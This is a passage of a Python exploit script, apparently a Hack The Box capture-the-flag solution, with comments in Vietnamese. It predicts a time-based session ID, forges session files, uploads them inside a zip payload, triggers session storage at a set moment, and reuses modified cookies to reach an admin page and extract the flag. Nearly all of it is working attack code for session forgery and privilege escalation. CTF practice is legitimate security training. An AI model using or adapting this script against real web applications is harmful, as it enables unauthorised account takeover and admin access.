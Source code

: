 ```python
    print(f"✨ Modified cookies: {cookies_dict}")
    print(f"✨ Refreshing session with modified cookies....")
    refresh_url = f"{BASE_URL}/user/upload"
    refresh_response = requests.get(refresh_url, cookies=cookies_dict)
    
    print(f"✨ Accessing admin page....")
    admin_url = f"{BASE_URL}/user/admin"
    admin_response = requests.get(admin_url, cookies=cookies_dict)
    
    print(f"✨ Admin page response status: {admin_response.status_code}")
    
    if "HTB" in admin_response.text:
        print(f"✅ Successfully accessed admin page!")
        import re 
        flag_match = re.search(r"HTB\{[^}]+\}", admin_response.text)
        if flag_match: 
            flag = flag_match.group(0)
            print(f"✅ Flag: {flag}")
        else:
            print("✨ Flag format detected but couln't extract exact pattern")
            return True
    else:
        print(f"❌ No Flag found in response")
        return False
    


def main():
    print("🧪 Preparing exploit...")
    
    # 1) Chọn thời điểm target (phút kế tiếp, giây = 0)
    now = datetime.now()
    target_time = (now + timedelta(minutes=1)).replace(second=0, microsecond=0)
    print("✨ Target time: ", target_time)

    # 2) Dự đoán sessionID
    sid = predict_session_ids(target_time)
    print("✨ Predicted sessionID: ", sid)
    
    # 3) tạo file session giả 
    fpath = create_fake_session_files(sid)
    zpath = create_zip(fpath)

    # 4) đăng ký + login aacount thật 
    register_account(USERNAME, PASSWORD)
    r = login(USERNAME, PASSWORD)
    if r.status_code != 302: 
        print("❌ Login failed")
        return 
    cookies = r.cookies
    
    # 5) upload payload zip 
    ur = upload_zip(cookies, zpath)
    print(f"✨ Upload status:", ur.status_code)
    
    # 6) chờ tới đúng thời điểm -> trigger session storage 
    trigger_session_storage(target_time)
    
    time.sleep(2)

    # 7) Truy cập admin page 
    access_admin_page(USERNAME, PASSWORD)
    
```